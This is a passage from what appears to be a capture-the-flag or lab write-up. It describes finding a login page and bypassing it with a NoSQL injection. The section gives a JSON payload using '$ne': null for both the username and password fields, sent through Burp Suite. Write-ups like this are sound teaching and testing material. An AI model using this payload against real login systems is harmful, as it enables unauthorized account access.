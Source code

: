 ![img03](screenshots/img03.png)

- And by visiting the page, we found a login page there!

### NoSQL Injection

- Intercept the traffic of the login page with burpsuite and then try this json NoSQL Injection;

👉[**Reference**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/nosql-injection.md#basic-authentication-bypass)👈

```
{"username": {"$ne": null}, "password": {"$ne": null} }
```

![img04](screenshots/img04.png)
